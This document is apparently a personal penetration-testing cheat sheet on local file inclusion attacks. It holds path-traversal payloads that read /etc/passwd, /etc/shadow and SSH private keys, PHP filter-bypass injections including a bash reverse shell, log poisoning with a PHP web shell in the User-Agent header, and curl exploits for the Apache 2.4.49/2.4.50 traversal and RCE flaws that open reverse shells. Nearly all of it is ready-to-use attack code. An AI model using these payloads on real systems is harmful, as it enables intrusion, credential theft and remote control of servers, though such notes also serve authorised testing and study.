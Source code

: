 LFI Common Files
---
#LFI #files #RFI

```lists
../../../../../../../etc/passwd
../../../../../../../etc/passwd?
../../../../../../../etc/passwd%00
../../../../../../../etc/passwd^^
.[\\./.\\./.\\./.\\./etc/passwd](file://./etc/passwd)
....................//etc/passwd
....//....//....//....//....//....//....//....//....//....//....//..../etc/passwd
..///..////etc/passwd
..[\\..\\..\\..\\..\\..\\/etc/passwd](file://../../../../../etc/passwd)
..[\\\..\\\..\\\..\\\..\\\/etc/passwd](file://../../../../etc/passwd)
.\/\.\.\/\.\/etc/passwd
../../../../../../../proc/self/cmdline
../../../../../../../proc/self/environ
/etc/passwd
/etc/hosts
/proc/self/environ
/proc/version
/proc/cmdline
/proc/self/cmdline
/etc/issue
/var/www/.htaccess
/var/www/.htpasswd
/etc/shadow
/etc/group
/etc/motd
/etc/mysql/my.cnf
/etc/apache2/apache2.conf
/etc/apache2/conf/httpd.conf
../../../../../../home/USERNAME/.ssh/id_rsa
/var/log/auth.log #log poisoning via SSH
/etc/apache2/sites-available/000-default.conf
/windows/win.ini
```

Windows:

```text
c:\apache\logs\access.log
c:\apache\logs\error.log
C:\inetpub\wwwroot\
```

Word / file lists:

```lists
/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
/usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest.txt
/usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt
```

Do 1-1000 to enum processes:
---
#enum #enumeration #process #process-enumeratio 

```shell
for i in $(seq 900 1000); do curl $TARGET_URL/?file=../../../../proc/$i/cmdline -o -; echo " PID => $i"; done
```

Bypass simple filters and other bypasses:
---
#lfi #filter #bypass

```php
' and die(show_source('/etc/passwd')) or '
' and die(system("/bin/bash -c 'bash -i >& /dev/tcp/$TARGET_IP/4444 0>&1'")) or ' #fo rev shell
php://fd/3php://fd/3
php://filter/read=string.toupper|string.rot13|string.tolower/resource=file:///etc/passwd
data:text/plain,<?php phpinfo(); ?>data:text/plain,<?php phpinfo(); ?>
```


```bash
#execute id command
curl -s --path-as-is "$TARGET_URL/index.php?page=data://text/plain,<?php%20echo%20system('id');?>"
#read the contents of index.php
curl -s --path-as-is "$TARGET_URL/index.php?page=php://filter/convert.base64-encode/resource=../../../../../../var/www/html/index.php"
```

Log poisoning:
```burp-suite
User-Agent: CHROME <?php echo system($_GET['exec']);?>
```
Then execute the poisoned log file by including it:
```bash
#linux
curl -s --path-as-is $TARGET_URL/../../../../../../../../../var/log/apache2/access.log&exec=ls
#windows using xampp
curl -s --path-as-is $TARGET_URL/../../../../../../../../../xampp/apache/logs/access.log&exec=dir
```


Apache 2.4.49 / Apache 2.5.50 Path traversal and RCE:
---
#apache-rce #apache-2449 #apache-2550 
read /etc/passwd:
```bash
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; " "$TARGET_IP/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```
execute /bin/bash for a reverse shell in 2.4.49:
```bash
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; bash -c \"bash -i >& /dev/tcp/$LOCAL_IP/4444 0>&1\"" "$TARGET_IP/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"
```
and for 2.4.50:
```bash
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; bash -c \"bash -i >& /dev/tcp/$LOCAL_IP/4444 0>&1\"" "$TARGET_IP/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash"
```